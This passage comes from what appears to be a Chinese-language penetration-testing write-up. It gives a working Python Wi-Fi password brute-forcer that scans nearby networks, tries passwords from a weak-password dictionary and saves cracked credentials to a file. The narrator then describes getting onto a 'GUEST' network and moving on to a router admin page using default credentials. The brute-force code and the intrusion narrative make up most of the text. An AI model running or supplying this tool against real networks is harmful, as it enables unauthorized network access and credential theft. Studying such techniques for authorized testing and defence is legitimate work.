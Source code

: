 ```
  wifi.get_wifi_interfaces()                  #获取网卡接口
  wifi.check_interfaces()                    #检测网卡连接状态
  print('\n正在扫描wifi热点...')
  wifiList = wifi.scan_wifi()                  #扫描周围wifi
  print('\n正在破解，时间较长，请耐心等待...')
  #所有破解成功的wifi名称及密码
  user_pwd = []                        
  # 只能单线程破解，因为只有一个无线网卡，不能同时连接多个wifi热点
  for i in wifiList:
    print('正在破解%s，请耐心等待...' % i[0])
    start = time.time()
    with open(r'1800常用弱口令字典.txt', 'r') as f:      
      for password in f:
        try:
          result = wifi.connect_wifi(i[0], password)  #尝试连接wifi
          if result == True:              #若找到密码，则跳出，避免继续查找
            user_pwd.append((i[0], password))    #保存破解成功的wifi及密码
            break
        except:
          continue
    end = time.time()
    shi = end - start
    print('破解耗时：%s秒。' % shi)
    if dian == 'Y' or dian == 'y':
      xia = input('是否继续破解(Y/N)？').strip()
      while xia not in sf:
        print('输入错误，请重新输入！')
        xia = input('是否继续破解(Y/N)？')
      if xia == 'Y' or xia == 'y':
        continue
      else:
        break
  print('\n==========================================================================')
  print('最终统计结果为：')
  with open(r'c:/users/administrator/desktop/wifi.txt', 'a') as pwd:
    for p in user_pwd:
      pwd.write('wifi热点：%s，密码：%s' % (p[0], p[1]))
      print(('wifi热点：%s，密码：%s' % (p[0], p[1])), end='')
  print('==========================================================================\n')
  wifi.disconnect_wifi()
```

幸运的是，这里我通过一段时间的等待，终于拿到了`GUEST`的连接密码。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s57DJicf5wIXN3qY9jkGbAVo4vkf6mKE4qiav4mG6tFXqKtMALicFMvzCGwFtto7bKjn8lHnIIlDcOYRg/640?wx_fmt=png)

这里连接上`GUEST`后，我与目标的距离终于是更近了一步，但是`GUEST`所在的网络显然只是连入了互联网，我们想要得到更多的结果还是要拿下刚才的`Tech`才行，一般企业无线架构中，这些`AP`会有自己的管理页面，通过探测相应的`web`端口，我发现了一个路由管理网页。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s57DJicf5wIXN3qY9jkGbAVo4ibdL33FIs1icByx4IgFfgG8K14yqZhk9rBISRZN4yz6NbqvN88GVJC8A/640?wx_fmt=png)

接下来就是通过万能的搜索引擎，寻找相应的配置文档，看看是否有相应的默认账户及口令。
